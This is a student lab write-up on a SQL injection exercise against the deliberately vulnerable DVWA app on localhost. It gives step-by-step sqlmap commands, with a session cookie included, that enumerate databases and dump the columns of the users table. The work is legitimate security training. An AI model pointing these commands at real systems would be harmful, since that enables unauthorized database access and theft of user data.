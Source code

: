 # Lab #1,22110059, INSE331280E_02FIE

# Task 2. Attack on the database of Vulnerable App from SQLi lab 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
## 1. Get the cookies for the authentication
![alt text](/pic1.jpg)
Type 1 and then submit then inspect
Then go to network and get cookie
![alt text](/pic2.jpg)

## 2. Type the command in terminal to get the available databases
Type sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit"  --cookie="PHPSESSID=3h94atgssds8un3l2ho6j2bqr5; security=low" --tables into the terminal
![alt text](/command1.jpg)
Then we have 2 available tables
First one is dvwa and the second one is information_schema
![alt text](/table1.jpg)
![alt text](/table2.jpg)

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
We type the command sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit"  --cookie="PHPSESSID=3h94atgssds8un3l2ho6j2bqr5; security=low" -D dvwa -T users --columns to get tables 
![alt text](/command2.jpg)
And the tables,users information will appear
![alt text](/table3.jpg)




